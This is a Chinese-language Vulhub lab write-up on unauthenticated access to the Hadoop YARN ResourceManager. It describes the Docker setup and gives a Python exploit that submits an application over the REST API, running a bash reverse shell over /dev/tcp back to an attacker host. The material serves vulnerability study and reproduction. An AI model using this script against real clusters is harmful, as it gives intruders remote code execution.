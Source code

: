 # Hadoop YARN ResourceManager 未授权访问

## 漏洞描述

- 参考文章： [http://archive.hack.lu/2016/Wavestone%20-%20Hack.lu%202016%20-%20Hadoop%20safari%20-%20Hunting%20for%20vulnerabilities%20-%20v1.0.pdf](http://archive.hack.lu/2016/Wavestone - Hack.lu 2016 - Hadoop safari - Hunting for vulnerabilities - v1.0.pdf)

## 环境搭建

Vulhub运行测试环境

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8088`即可看到Hadoop YARN ResourceManager WebUI页面。

![image-20220224001542564](./images/202202240015697.png)

## 漏洞复现

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API (https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 也可以提交任务执行。

利用过程如下：

1. 在本地监听等待反弹 shell 连接
2. 调用 New Application API 创建 Application
3. 调用 Submit Application API 提交

参考 [exp 脚本](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)

```python
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

成功反弹shell：

![image-20220224001724727](./images/202202240017808.png)